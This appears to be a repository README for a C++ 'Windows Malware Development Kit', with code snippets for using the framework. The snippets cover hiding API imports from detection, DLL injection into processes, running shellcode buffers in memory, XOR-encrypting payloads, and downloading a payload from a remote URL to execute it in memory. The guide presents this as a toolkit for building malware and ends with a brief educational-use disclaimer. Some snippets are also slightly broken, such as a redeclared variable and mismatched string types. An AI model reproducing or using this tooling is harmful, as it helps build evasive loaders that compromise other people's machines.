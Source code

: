 # Windows Malware Development Kit (MDK) - Usage Guide

The **Windows Malware Development Kit (MDK)** provides a framework for interacting with Windows processes, memory, hashing, and the Windows registry. This guide covers the core functionality of the framework with practical examples.

### API Evasion
MDK directly resolves (most) API calls instead of linking them at compile-time, preventing them from appearing in the Import Address Table (IAT). This allows for stealthier execution by dynamically locating and invoking functions at runtime.

---

## Installation
Ensure you have the required dependencies set up before using MDK.

```cpp
#include <mdk.h>
```

Link against the necessary libraries when compiling your project.

## Features & Usage

### 1. Process Management
MDK allows interacting with Windows processes and their threads.

#### Example:
```cpp
// Create a new process object
auto process = mdk::process("notepad.exe");

// Access process attributes
process.handle;
process.pid;
process.threads();

// Enumerate process threads
for (mdk::thread thread : process.threads())
{
    // Access thread attributes
    thread.handle;
    thread.tid;
}
```

### 2. DLL Injection and API Calls
MDK supports DLL injection and dynamic function resolution.

#### Example:
```cpp
// Create a new process
auto notepad = mdk::process("Notepad.exe");

// Load a DLL
auto dll = mdk::dll("kernel32.dll");

// Inject the DLL into the process
notepad.inject(&dll);

// Load user32.dll
auto dll = mdk::dll("user32.dll");

// Locate and execute MessageBoxW
(*(void(*)(int, LPCSTR, LPCSTR, int)) dll.find("MessageBoxW"))(0, "Injected Message", "MDK Example", 0);

// Call MessageBoxA from user32.dll (simplifies the above)
dll.call<void>("MessageBoxA", 0, "Injected Message", "MDK Example", 0);

// Same as above but with explicit typing
dll.call<VOID, INT, LPCSTR, LPCSTR, INT>("MessageBoxA", 0, "Injected Message", "MDK Example", 0);

// DLL attributes
dll.handle;
dll.name;
dll.size;
```

### 3. Memory Buffers
MDK provides various buffer management functionalities.

#### Example:
```cpp
// Create buffers with different initialization states
auto i = mdk::buffer();       // Single-byte buffer
auto ii = mdk::buffer(32);    // 32-byte uninitialized buffer

// Create a buffer with predefined data
unsigned char shellcode[12] = "\x48\x65\x6C\x6C\x6F\x20\x57\x6F\x72\x6C\x64";
auto buf = mdk::buffer(&shellcode, 12); // 12-byte initialized buffer

// Access buffer attributes
buf.file;    // Memory-mapped file
buf.handle;
buf.size;

// Execute the buffer in memory
buf.execute();
```

### 4. Encryption and Hashing
MDK allows encrypting buffers using built-in algorithms.

#### Example:
```cpp
// Create an XOR encryption algorithm with a 32-byte key
auto algorithm = mdk::hash::xor_(32);

// Encrypt the buffer in memory
buf.encrypt(&algorithm);
```

### 5. Internet Payload Downloading
MDK enables downloading and executing payloads directly in memory.

#### Example:
```cpp
// Create an internet handler
auto internet = mdk::internet();

// Download payload into a buffer
auto buffer = internet.download("http://example.com/payload", 512);

// Execute the downloaded buffer
buffer.execute();

// Internet attributes
internet.handle;
```

### 6. Registry Manipulation
MDK enables reading and writing to the Windows registry.

#### Example:
```cpp
// Define a buffer containing data to write
unsigned char data[] = "MDK Registry Example";
auto buffer = mdk::buffer(data, sizeof(data));

// Open a registry key
auto registry = mdk::registry(HKEY_CURRENT_USER, "Software\Example");

// Write data to the registry
registry.set("ExampleKey", &buffer);

// Retrieve a registry value
mdk::buffer result = registry.get("Desktop", "Wallpaper");
```

### 7. Static Library Access
MDK statically defines commonly used libraries for minimal memory overhead.

#### Example:
```cpp
// Access predefined libraries
mdk::nt().kernel32;
mdk::nt().wininet;
mdk::nt().advapi32;

// Example: Call GetProcessVersion via kernel32
auto version = mdk::nt().kernel32.call<DWORD>("GetProcessVersion", 0);
```

## Disclaimer
This framework is provided for educational and research purposes **only**. Unauthorized usage for malicious intent is strictly prohibited.

